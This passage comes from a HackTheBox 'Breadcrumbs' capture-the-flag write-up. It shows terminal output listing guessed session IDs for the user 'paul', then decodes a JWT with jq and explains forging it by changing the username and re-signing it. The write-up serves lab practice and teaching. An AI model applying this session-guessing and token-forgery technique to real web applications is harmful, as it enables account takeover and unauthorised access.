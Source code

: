 ```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> php -f cookie.php
paula2a6a014d3bee04d7df8d5837d62e8c5
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paul47200b180ccd6835d25d034eeb6e6390
```

These are the possible Session IDs for `paul`.

## JWT

Now time to find out the correct JWT token.<br>
Copy the token from `Cookie-Editor` and decode it.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> jq -R 'split(".") | .[0],.[1] | @base64d | fromjson' <<< eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoiZjRUMUgifX0.LS26Z_zznu-oIvL5zp-gLLTcKNS61YhThLEoEBMo5tI
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "data": {
    "username": "f4T1H"
  }
}
```

Change the values and put our encoded secret at the end using [this](https://jwt.io) site.

![](src/jwt.png)
